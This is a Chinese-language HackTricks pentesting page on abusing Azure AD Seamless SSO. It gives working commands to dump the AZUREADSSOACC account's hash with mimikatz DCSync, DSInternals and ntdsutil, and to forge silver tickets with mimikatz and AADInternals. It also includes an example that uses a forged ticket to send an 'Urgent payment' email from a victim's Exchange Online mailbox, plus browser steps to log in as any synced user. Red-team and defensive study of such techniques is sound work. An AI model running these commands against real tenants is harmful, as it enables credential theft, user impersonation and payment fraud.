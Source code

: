 # 无缝单点登录

<details>

<summary><strong>支持 HackTricks 并获得福利！</strong></summary>

* 如果您想在 HackTricks 中看到您的公司广告，或者如果您想访问 PEASS 的最新版本或下载 HackTricks 的 PDF，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方 PEASS 和 HackTricks 商品**](https://peass.creator-spring.com)
* 发现[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注**我的 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来**分享您的黑客技巧**。

</details>

## 基本信息

Azure Active Directory 无缝单点登录（Azure AD Seamless SSO）在用户连接到公司网络的公司设备上自动**登录用户**。启用后，用户无需输入密码即可登录 Azure AD，通常甚至无需输入用户名。此功能使用户能够轻松访问基于云的应用程序，无需任何额外的本地组件。

<figure><img src="../../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

基本上，Azure AD 无缝单点登录在用户**使用本地域加入的 PC**上登录。

它支持[**PHS（密码哈希同步）**](phs-password-hash-sync.md)和[**PTA（透明验证）**](pta-pass-through-authentication.md)。

桌面 SSO 使用**Kerberos**进行身份验证。配置后，Azure AD Connect 在本地 AD 中创建一个名为 AZUREADSSOACC 的计算机帐户。在配置过程中，AZUREADSSOACC 帐户的密码以明文形式发送到 Azure AD。

**Kerberos 票据**使用密码的**NTHash（MD4）**进行加密，Azure AD 使用发送的密码解密票据。

**Azure AD**公开了一个**终端点**（https://autologon.microsoftazuread-sso.com），用于接收 Kerberos 票据。域加入的计算机的浏览器将票据转发到此终端点以进行单点登录。

### 本地 -> 云

用户**AZUREADSSOACC 的密码永远不会更改**。因此，域管理员可以获取此帐户的哈希，并使用它来创建银票据以与**任何同步的本地用户**连接到 Azure：
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
现在，你可以使用哈希值来**生成银票据**：
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:f9969e088b2c13d93833d0ce436c76dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "97B745CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
要使用银票：

1. 启动_Mozilla Firefox_。
2. 转到**`about:config`**并将[network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication)首选项设置为[value](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically)`https://aadg.windows.net.nsatc.net,https://autologon.microsoftazuread-sso.com`。
3. 导航到与我们的AAD域集成的任何Web应用程序。我们将使用[Office 365](https://portal.office.com/)，这是最常用的应用程序之一。
4. 一旦到达登录界面，请填写用户名，同时将密码字段留空。然后按TAB或ENTER键。

<figure><img src="../../../../.gitbook/assets/image (3) (3) (1).png" alt=""><figcaption></figcaption></figure>

#### 就是这样！你应该登录成功了！ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

#### ~~为仅云用户创建Kerberos票据~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

如果Active Directory管理员可以访问Azure AD Connect，他们可以为任何云用户**设置SID**。这样，Kerberos **票据**也可以为仅云用户**创建**。唯一的要求是SID是一个正确的[SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\))。

{% hint style="danger" %}
微软现在**阻止更改云管理员用户的SID**。\
有关信息，请访问[https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

## 参考资料

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)

<details>

<summary><strong>支持HackTricks并获得福利！</strong></summary>

* 如果您希望在HackTricks中看到您的**公司广告**，或者如果您想访问**PEASS的最新版本或下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获得[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram群组**](https://t.me/peass) 或 **关注**我在**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向**[**HackTricks**](https://github.com/carlospolop/hacktricks) **和**[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github仓库提交PR来分享您的黑客技巧。**

</details>
